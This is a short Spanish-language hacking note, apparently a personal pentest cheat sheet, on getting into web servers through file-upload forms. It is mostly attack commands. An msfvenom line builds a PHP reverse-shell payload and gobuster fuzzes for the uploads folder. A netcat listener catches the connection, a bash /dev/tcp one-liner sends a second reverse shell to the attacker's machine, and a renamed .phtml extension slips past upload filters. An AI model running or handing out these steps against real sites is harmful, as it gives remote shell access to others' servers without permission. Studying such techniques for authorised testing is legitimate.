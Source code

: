 
Cuando una web nos permite subir archivos hay que explotarlo bien, porque seguramente se pueda hacer una intrusión por ahí.
La forma de atacar será subir un archivo con un código malicioso que se puede crear con msfvenom.



1 con Msfvenom generamos un payload:
```sh fold:"Generar payload con msfvenom"
msfvenom -p php/reverse_php Lhost={IPlocal} LPORT={Local port} -f raw > pwned.php
```



Este archivo lo subimos con el formulario de la web encontrado

Ahora tenemos que saber donde se ha subido para intentar ejecutarlo y ejecutar el código malicioso.

por tanto hacemos  Fuzzing con gobuster


```sh fold:"Buscar el fichero subido pwned.php con gobuster"
gobuster dir -u http://{ip} -w /usr/share/wordlist/dirbuster/directory-listls-lowercase-2.3-medium.txt
```


Si encontramos la carpeta /uploads o carpeta similares entramos
Una vez localizado nuestro fichero pwned.php solo nos falta

```sh fold:"Poner Netcat a la escucha en el puerto seleccionado en el fichero creado con msfvenom"
nc -nlvp {Local port}
```

Después hacemos click sobre nuestro fichero para obtener la conexión en netcat.


**Nota:** El payload con msfvenom funciona mal y al cabo del rato perdemos la conexión, por tanto lo primero que hacemos cuando hemos establecido conexión será abrir un nuevo terminal
con netcat nos ponemos a la escucha en otro puerto diferente al que hemos elegido previamente
y desde la conexión anterior nos enviamos la reverse_shell:


```sh fold:"Enviar una conexion a nuestra maquina por el nuevo puerto"
bash -c "sh -i >&  /dev/tcp/{ip maquina local}/{nuevopuerto} 0>&1"
```


# Bypass Restricción de FileUpload (Subir ficheros sin permiso de ficheros para ese formato)

cuando intentas subir un archivo en .php por ejemplo y no está permitido tenemos que Bypassear la restricción.

Intentamos subir un fichero con extensión .phtml
seria el mismo que en php pero cambiando directamente con un 

```sh fold:"Cambiar la extension de un fichero"
mv pwned.php pwned.phtml
```









